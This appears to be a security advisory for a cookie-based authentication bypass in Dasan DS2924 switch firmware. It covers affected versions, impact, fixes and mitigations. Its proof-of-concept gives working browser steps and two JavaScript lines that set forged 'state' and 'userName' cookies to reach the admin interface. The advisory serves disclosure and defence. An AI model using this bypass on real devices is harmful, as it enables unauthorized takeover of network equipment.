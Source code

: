 # Dasan Switch DS2924 Authentication Bypass Vulnerability

## Description

The Dasan Switch DS2924 (firmware versions 1.01.18 and 1.02.00) is vulnerable to authentication bypass due to insecure cookie management on the `/cgi-bin/webctrl.cgi` endpoint and other paths. An attacker can manipulate the `state` and `userName` cookies, enabling unauthorized access to the device’s web control interface and potentially compromising the network device.

---

## Vendor Information

- **Vendor:** Dasan Networks
- **Vendor Homepage**: http://dasansmc.com/

---

## Affected Product(s)/Code Base

- **Product**: Dasan Switch DS2924
- **Firmware/Software Version Affected**:
  - **Model Name**: DS2924
  - **Firmware Version**: 1.01.18 & 1.02.00

---

## Vulnerable Endpoints

- `/cgi-bin/webctrl.cgi`
- `/`
- `/cgi-bin`

---

## Attack Type

- **Type**: Authentication Bypass
- **Classification**: Improper Authentication Implementation

---

## Impact

- **Severity**: High
- **Description**:
  - The Dasan Switch DS2924 devices (firmware versions 1.01.18 and 1.02.00) are vulnerable to authentication bypass due to improper session management.
  - By manipulating cookies, an attacker can bypass the login process entirely and gain unauthorized access to the device's web control interface.
  - This vulnerability potentially allows attackers to control the network switch, configure settings, or perform other malicious actions on the network infrastructure.

---

## Affected Component(s)

- **Authentication Mechanism** (Weak Cookie-Based Authentication)

---

## Attack Vector(s)

- **Access Method**: Manipulate cookies or run a script to set cookies in the browser.
- **Authentication Requirement**: None (Attacker bypasses authentication via cookies).
- **Exploit Complexity**: Low

---

## Proof of Concept (PoC)

### Exploit: Authentication Bypass via Cookie Manipulation

#### Steps to Reproduce:

1. Open a web browser.
2. Go to the login page of the Dasan Switch DS2924 interface (replace `<target-ip>` with the device's IP address):
   ```
   http://<target-ip>/cgi-bin/webctrl.cgi
   ```
3. In the browser's developer console, run the following JavaScript to bypass authentication:
   ```javascript
   document.cookie = "state=login";
   document.cookie = "userName=admin";
   ```
4. Refresh the page or access the management interface directly at:
   ```
   http://<target-ip>/
   ```
5. The attacker will have admin-level access to the device without logging in.

---

### PoC Video

https://github.com/user-attachments/assets/b85f1d3f-7af4-44af-b142-4bca25603dc1

---

## Vulnerability Type Info

- **Vulnerability Type**:
  - Authentication Bypass (Cookie-Based)
- **CWE-ID**:
  - [CWE-306](https://cwe.mitre.org/data/definitions/306.html) - Missing Authentication for Critical Function
  - [CWE-287](https://cwe.mitre.org/data/definitions/287.html) - Improper Authentication
- **Definition**:
  - The attacker is able to bypass authentication by setting the `state` and `userName` cookies to `login` and `admin`, respectively, without needing to enter any valid credentials.

---

## Impact Info

- **Impact Type**:
  - **Unauthorized Access**: The attacker gains access to the administrative functions of the device.
  - **Privilege Escalation**: The attacker is granted admin-level access without proper authentication.
  - **Potential for Malicious Activity**: The attacker can reconfigure the device or perform actions that can disrupt network operations.

---

## Suggested Fixes

### Implement Secure Session Management

- Ensure that the device validates authentication on every request and not only based on cookies.
- Implement more secure session tokens and access control mechanisms that are not easily manipulated via cookies.

### Use Strong Authentication for Critical Endpoints

- All management and configuration endpoints, such as `/cgi-bin/webctrl.cgi`, should require proper authentication via username/password.

### Encrypt Cookies

- Cookies should be securely encrypted and not contain sensitive session information such as `userName` or `state`.

---

## Mitigation & Workarounds

Until a patch is released, administrators should:

- Restrict access to the management interface by IP filtering or use VPNs.
- Disable remote access or limit it to trusted devices.
- Monitor for unauthorized sessions or abnormal access patterns.


